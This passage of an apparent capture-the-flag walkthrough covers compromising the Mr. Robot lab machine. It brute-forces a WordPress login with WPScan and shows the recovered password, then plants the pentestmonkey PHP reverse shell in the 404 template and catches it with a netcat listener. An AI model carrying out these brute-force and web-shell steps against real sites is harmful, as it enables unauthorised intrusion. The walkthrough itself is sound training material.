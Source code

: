 #### WPScan

Note, with WPScan, since we were unable to enumerate any valid users with our preliminary scan, we'll have to rely on the previously mentioned tools (Burp & Hydra) to find the username first.

Once found, we can then use WPScan as an alternative to brute force the password like so:

```shell
wpscan -t 10000 -U Elliot -P fsocity.dic --url http://192.168.56.103/
```
![wpscan password brute force](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/klzlzl4h0axssrw3xklw.png)

So of the three tools, Hydra was most ideal with its quick execution time with this particular machine config. If circumstances were different, maybe users were enumerated or we were using the full Burp Suite version, the other tools would've been better for the job.
```shell
username: Elliot
password: ER28-0652
```
Now that we have our valid credentials, let's login to the WP site!
![WordPress dashboard](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/d5u0qof60ur1eon8d5hv.png)

### Running reverse shell on target

Our next moves are going to see if we can run reverse shell from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) by inserting it into the `404.php` file of the WP site.

Will need to switch network back to `Bridge Adapter` in order to download the reverse shell, and then switch back to `Host Only Adapter` to reconnect with the target.

To download the reverse shell onto Kali machine:
```shell
wget "http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz"
```

Extract it, then go into php-reverse-shell.php file using `vim` and replace the `$ip` value with your attacking machine IP: `192.168.56.104`. And change the port to a “cool” number: `4242`
![Reverse shell config](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/hoikljnww6ukanydqsag.png)

Copy the `php-reverse-shell.php` code and paste it into `Appearance > Editor > 404 Template` and update the file.
![Paste reverse shell on 404.php](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mu4r2l28ijtah1l9vnfn.png)

Using [NetCat](https://www.kali.org/tools/netcat/), we set up a listener on port `4242` with command: `nc -lnvp 4242`
![netcat](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qfnamrfo8udkrwee4f8c.png)

Open new terminal:
```shell
curl -X POST http://192.168.56.103/404.php
# This will send a POST request to the 404.php page
```
Can also send a POST request on web browser → `http://102.168.56.103/flaskdjhflakjsdhf`. This will trigger a 404 page, and therefore request will trigger the reverse shell.
